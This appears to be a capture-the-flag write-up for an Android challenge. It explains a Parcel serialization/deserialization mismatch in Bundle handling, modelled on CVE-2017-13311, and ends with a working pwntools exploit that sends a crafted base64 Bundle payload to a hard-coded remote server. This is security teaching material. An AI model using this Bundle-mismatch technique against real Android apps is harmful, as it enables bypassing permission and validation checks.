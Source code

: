 ## BroadCastTest
[中文](./README_zh.md) [English](./README.md)

This chall is an android pwn
The vulnerability is about the mismatch between serialization and deserialization
This chall is mainly inspired by CVE-2017-13311, etc.

You can read this article https://weekly-geekly.github.io/articles/457558/index.html, which details the cause of similar vulnerabilities

In the apk, it first read the Base64 string, then base64deocde the data and put it as a Bundle in the broadcast, send it to Receiver2
Receiver2 receives the broadcast, takes out the Bundle, and then takes out a string which key is "command" from the bundle, and determines whether it is getflag,
If not, the Receiver2 will continue to broadcast the data to Receiver3
Receiver3 receives the broadcast, takes out the Bundle, check whether the command is getflag, if so, it outputs "Congratulation"

We cannot pass this check in a normal way, but there is a com.de1ta.broadcasttest.MainActivity $ Message class in the apk, where the serialization and deserialization do not match

In Receiver2, checking whether the command is "getflag" will cause the Bundle to be deserialized. When it is sent to Receiver3, it will be serialized again. Finally, Receiver3 will perform the last deserialization after receiving the Bundle.

Using the vulnerability, the string whose key is command cannot be obtained when it is deserialized in Receiver2. After serialization, the string with key as command and the value of getflag appears, and then the check of Receiver3 can pass, and finally get To flag

Below is the exp
```
from pwn import *
import base64
from hashlib import sha256
import itertools
import string
context.log_level = 'debug'

def proof_of_work(chal):
    #for i in itertools.permutations(string.ascii_letters+string.digits, 4):
    for i in itertools.permutations([chr(i) for i in range(256)], 4):
        sol = ''.join(i)
        if sha256(chal + sol).digest().startswith('\0\0\0'):
            return sol


a = 'SAEAAEJOREwDAAAACAAAAG0AaQBzAG0AYQB0AGMAaAAAAAAABAAAACwAAABjAG8AbQAuAGQAZQAxAHQAYQAuAGIAcgBvAGEAZABjAGEAcwB0AHQAZQBzAHQALgBNAGEAaQBuAEEAYwB0AGkAdgBpAHQAeQAkAE0AZQBzAHMAYQBnAGUAAAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAwAAAA0AAAA0AAAADQAAAAAAAAAHAAAAYwBvAG0AbQBhAG4AZAAAAAAAAAAHAAAAZwBlAHQAZgBsAGEAZwAAAAcAAABjAG8AbQBtAGEAbgBkAAAAAAAAAA0AAABQAGEAZABkAGkAbgBnAC0AVgBhAGwAdQBlAAAA'
b = base64.b64decode(a)
p = remote('206.189.186.98', 8848)
p.recvuntil('chal= ')
chal = p.recvuntil('\n')[:-1]
p.recvuntil('>>\n')
sol = proof_of_work(chal)
p.send(sol)
p.recvuntil('size')
p.sendline(str(len(b)))
p.recvuntil('please input payload:')
p.send(b)
p.interactive()
```
